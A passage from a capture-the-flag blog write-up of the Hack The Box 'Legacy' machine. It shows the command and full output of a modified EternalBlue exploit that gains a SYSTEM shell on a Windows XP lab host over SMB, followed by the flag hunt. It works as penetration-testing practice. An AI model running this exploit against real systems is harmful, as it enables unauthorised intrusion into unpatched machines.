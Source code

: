 I wanted to see if the exploit worked without selecting a named pipe in advance, as it seemed to have a method to find one. So I ran it just specifying the IP:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ python2 exploit.py 10.10.10.4
Target OS: Windows 5.1
Using named pipe: spoolss
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x8209e3c8
SESSION: 0xe10af840
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe11ffcf8
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe11ffd98
overwriting token UserAndGroups
Opening SVCManager on 10.10.10.4.....
Creating service WtPn.....
Starting service WtPn.....
The NETBIOS connection with the remote host timed out.
Removing service WtPn.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

And I got a shell almost instantly:

![](/assets/images/blogs/Pasted image 20210502104816.png)

It seems `whoami` wasn't a command on Windows XP. I tried:

```bash
C:\WINDOWS\system32>echo %USERNAME%
echo %USERNAME%
%USERNAME%
```

But got nothing. So I just went digging for the flags instead.

![](/assets/images/blogs/Pasted image 20210502105024.png)

![](/assets/images/blogs/Pasted image 20210502105053.png)

That's the box!

![](/assets/images/blogs/Pasted image 20210502105629.png)

# Key Lessons

Here are some of the key things I learned on this box:
- Modifying Eternal Blue to use blank usernames when connecting to SMB
- Using Eternal Blue against Windows XP machines

